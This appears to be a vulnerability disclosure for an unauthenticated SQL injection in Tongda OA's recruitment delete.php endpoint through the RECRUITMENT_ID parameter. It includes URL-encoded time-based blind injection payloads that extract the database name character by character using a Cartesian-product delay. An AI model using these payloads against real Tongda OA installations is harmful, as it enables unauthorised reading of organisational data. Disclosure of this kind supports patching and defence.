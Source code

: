 Unauthorized SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017 versions

Route: general/hr/recruit/recruitment/delete.php

There is an injected parameter: $RECRUITMENT_ID

The code here is very concise. When $RECRUITMENT_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since it is closed with commas, there is a bypass.

![图片1](https://github.com/OliverWu23/cve/assets/54581402/f5c98454-9f51-4ac7-a04b-7a2c00477027)


We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![图片2](https://github.com/OliverWu23/cve/assets/54581402/a49d7474-e8b6-4c83-905b-5cc0f45123a1)


1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

![图片3](https://github.com/OliverWu23/cve/assets/54581402/62b6f53d-f17a-4429-8358-c7cd05e4c3f0)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time.

![图片4](https://github.com/OliverWu23/cve/assets/54581402/3a36432c-157d-4824-a36c-f45d752f246e)
